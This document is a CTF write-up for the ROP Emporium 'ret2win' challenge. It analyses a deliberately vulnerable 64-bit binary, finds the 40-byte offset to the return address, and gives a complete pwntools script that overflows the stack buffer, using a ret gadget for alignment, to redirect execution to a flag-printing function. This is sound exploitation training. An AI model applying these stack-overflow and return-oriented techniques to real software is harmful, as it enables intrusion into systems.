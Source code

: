 # Ret2win
For this challenge (and the other ROP Emporium challenges), I downloaded the 64-bit binary.

Using checksec, we find the following defenses in place:
```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```
NX is enabled, but most notably we can see that there is no PIE, so the binary is always loaded at 0x400000.


## Contents
The challenge contains the following pwnme function (disassembled with Ghidra):
```
void pwnme(void) {
  undefined1 local_28 [32];
  
  memset(local_28,0,0x20);
  puts(
      "For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffe r!"
      );
  puts("What could possibly go wrong?");
  puts(
      "You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n"
      );
  printf("> ");
  read(0,local_28,0x38);
  puts("Thank you!");
  return;
}
```
As the name of the challenge suggests, there is also a win function where we have to redirect execution to:
```
void ret2win(void) {
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```
The attack vector is thus clear: we have to overflow the return pointer on the stack to redirect execution to ret2win.

## Attack
First, we have to figure out the offset of the return pointer on the stack. To do this, we can use GDB with Pwndebug. We can use this to set a breakpoint inside the pwnme function after local variables have been defined and inspect the stack. Setting a breakpoint at the first puts in pwnme at 0x0040070b reveals the following stack:
```
─────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────
00:0000│ rax rsp 0x7ffd0bfc4220 ◂— 0
... ↓            3 skipped
04:0020│ rbp     0x7ffd0bfc4240 —▸ 0x7ffd0bfc4250 ◂— 1
05:0028│+008     0x7ffd0bfc4248 —▸ 0x4006d7 (main+64) ◂— mov edi, 0x400828
06:0030│+010     0x7ffd0bfc4250 ◂— 1
07:0038│+018     0x7ffd0bfc4258 —▸ 0x7ff1791c6ca8 (__libc_start_call_main+120) ◂— mov edi, eax
```
This shows that the return address pointing back to the main function is at offset 0x28 on the stack. We thus need an offset of 40 in decimal to overwrite the return address. This gives us a payload as follows:
```
ret2win = p64(0x400756)
payload = b"A"*40
payload += ret2win
```
What is interesting now, is that we do see the message "Well done! Here's your flag:", but we do not see the flag itself printed out. We thus succesfully returned to ret2win, but some calls are broken, supposedly due to stack alignment issues. We can fix this by adding a return gadget, which we can find using ropper:
```
ropper --file ret2win
...
0x000000000040053e: ret; 
```
The payload now becomes:
```
ret2win = p64(0x400756)
ret_gadget= p64(0x40053e)
payload = b"A"*40
payload += ret_gadget
payload += ret2win
```
This now works and prints out the flag!

The full script I used can be found below. For this script I used the
[pwn template](
https://radboudinstituteof.pwning.nl/posts/how2pwn/) from the Radboud CTF team.

```
#!/usr/bin/env python3

from pwn import *
import subprocess


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


"""
notes:

"""

gdbscript = ""

breakpoints = [
]

for s in breakpoints:
    gdbscript += s + "\n"


exe = "./ret2win"
elf = context.binary = ELF(exe, checksec=False)
# context.log_level = 'info' # use DEBUG in args for debugging. LOG_LEVEL=warn/info/error for anything else

"""
if args.REMOTE:
    libc = ELF('./libc.so.6', checksec=False)
else:
    libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
"""

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

ret2win = p64(0x400756)
ret_gadget= p64(0x40053e)
payload = b"A"*40
payload += ret_gadget
payload += ret2win

io.sendlineafter(b">", payload)

io.interactive()
```
